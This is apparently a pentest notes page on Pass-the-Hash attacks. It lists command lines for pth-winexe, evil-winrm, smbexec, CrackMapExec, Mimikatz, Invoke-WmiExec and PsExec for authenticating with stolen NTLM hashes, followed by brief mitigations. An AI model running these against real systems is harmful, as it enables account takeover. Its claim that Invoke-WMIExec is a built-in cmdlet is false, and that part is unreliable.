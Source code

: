 # Pass-the-Hash

A Pass-the-Hash (PtH) attack is a credential theft technique primarily targeting Windows-based systems. In this attack, an attacker obtains the hashed password of a user and uses it to authenticate as that user, bypassing the need for the actual plain-text password.

[#pass-the-hash-attack](../../executive-pt/post-exploitation/windows-post-exploitation/windows-dump-crack-hashes.md#pass-the-hash-attack "mention")

## Authentication through the stolen password hash

This is the main step where the adversary passes the hash to impersonate the user and gain access to the remote system.

### With pth-winexec (From Kali)

* [GitHub - byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
* [Pass the Hash toolkit, Winexe | Kali Linux](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/)

```bash
pth-winexe -U $USER_ACCOUNT%$NTLM_HASH //$HOST_IP powershell
```

### With evil-winrm (From Kali)

The "evil-winrm" tool is a Ruby gem that enables the execution of remote commands on a Windows machine using the Windows Remote Management (WinRM) protocol.

```bash
evil-winrm -u $USER_ACCOUNT -H $NTLM_HASH -i $HOST_IP
```

### With SMBExec (From Kali)

```bash
cd /usr/share/doc/python3-impacket/examples/smbexec.py .

python3 smbexec.py <DOMAIN>/<USER>@<IP> -hashes <LMHASH>:<NTHASH>
```

### With CrackMapExec (From Kali)

```bash
crackmapexec smb <IP> -u USER -H <LM:NT>
```





### With Mimikatz (From Windows attack  machine)

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:$USER /domain:domain.com /ntlm:$NTLM_HASH /run:powershell.exe"

Invoke-Mimikatz -Command '"sekurlsa::pth /user:$USER /domain:domain.com /ntlm:$NTLM_HASH /run:powershell.exe"'
```
{% endcode %}

More details in this page: [mimikatz.md](../../../tools/tools/mimikatz.md "mention")

### With Powershell (PowerView) (From Windows attack Machine

It is common for adversaries to use the _**Invoke-WMIExec**_ cmdlet, which allows execution of arbitrary commands on a remote Windows machine using WMI (Windows Management Instrumentation), to perform a PtH attack.

{% code overflow="wrap" %}
```powershell
Invoke-WmiExec -target $HOST_IP -hash a0c8746a6efc7782c7c19c55185145be -username Alice -command powershell
```
{% endcode %}

{% hint style="info" %}
Note that Invoke-WMIExec is a built-in PowerShell cmdlet that is present in many recent Windows systems. This feature enables the execution of arbitrary commands on a remote Windows machine through Windows Management Instrumentation (WMI). You can run Invoke-WMIExec directly from a PowerShell prompt or integrate it into a PowerShell script.
{% endhint %}



## Accessing resources through new user account

In the third step, we uses the newly obtained user account to expand their network access. For instance, the adversary can use a command-line utility called **PsExec** to perform remote code execution on another host.

```powershell
psexec.exe \\$HOST_IP cmd.exe
```



## Mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:

* **Limit account re-use**:
  * Avoid re-using local admin password
  * Disable Guest and Administrator accounts
  * Limit who is a local administrator (least privilege)
* **Utilize strong passwords**:
  * The longer the better (>14 characters)
  * Avoid using common words
  * I like long senteces
* **Privilege Access management (PAM):**
  * Check out/in sensitive accounts when needed
  * Automatically rotate passwords on check out and check in
  * Limits pass attacks as hash/passowrd is strong and constantly rotated







## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash" %}

